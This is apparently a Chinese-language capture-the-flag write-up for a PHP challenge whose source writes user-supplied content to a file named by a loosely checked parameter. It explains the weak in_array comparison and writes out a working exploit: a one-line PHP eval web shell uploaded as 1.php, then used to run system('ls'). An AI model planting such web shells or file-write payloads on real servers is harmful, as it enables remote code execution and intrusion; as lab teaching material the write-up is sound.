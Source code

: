 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 22:36:12
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>

```

分析源码

循环36--877

将1-877随机数添加到数组allow

get传参n，如果n在数组allow中，则将post传入的参数content写入n中

in_array未设置第三个参数，这意味着它会默认采用弱类型比较



即1.php可以绕过==



POST传入一句话木马

```
<?php @eval($_POST['a']);?>
```



GET传入

```
?n=1.php
```

POST传入

```
content=<?php @eval($_POST['a']);?>
```



访问1.php

![image-20250409212611632](./assets/image-20250409212611632.png)

空页面，说明一句话木马被成功解析



尝试执行命令

```
a=system("ls");
```

![image-20250409212642237](./assets/image-20250409212642237.png)



![image-20250409212712492](./assets/image-20250409212712492.png)